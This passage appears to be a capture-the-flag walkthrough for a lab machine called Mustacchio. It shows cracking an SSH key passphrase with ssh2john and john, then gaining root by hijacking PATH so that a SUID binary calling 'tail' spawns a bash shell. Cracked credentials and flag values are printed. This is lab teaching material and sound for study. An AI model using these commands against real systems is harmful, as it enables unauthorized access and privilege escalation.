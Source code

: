 - Cracked passphrase for id_rsa with john.
- First converted id_rsa to hash
```console
❯ ssh2john id_rsa > hash
```
Then cracked with rockyou.txt file
```console
❯ john -w=/usr/share/wordlists/rockyou.txt hash | tee john.log
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
urieljames       (id_rsa)
```
Logged in to SSH



## Exploitation
- Found user.txt in `/home/barry`
```console
barry@mustacchio:~$ cat user.txt
62d77a4d5f97d47c5aa38b3b2651b831
```
- Moved to home and found another user `joe`
- On moving to `joe`s home directory found a binary `live_log` with permissions to execute as root and readable by `barry`
```console
barry@mustacchio:/home/joe$ ls -l
total 20
-rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log
```
- On reading strings in this binary found that this program is `trail` without full path to tail, so we can exploit this program by making a new shell file and adding it to PATH as `tail`.
```console
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
<--snip--->
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log <------- L00k HERE
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
deregister_tm_clones
<---snip--->
.data
.bss
.comment
```
- Moved to /tmp directory because we will be adding permission to files
```console
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp/:$PATH
barry@mustacchio:/tmp$ /home/joe/live_log
root@mustacchio:/tmp#
```
- Got a root shell
- Found `root.txt` at `/root/`
```console
root@mustacchio:/tmp# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```
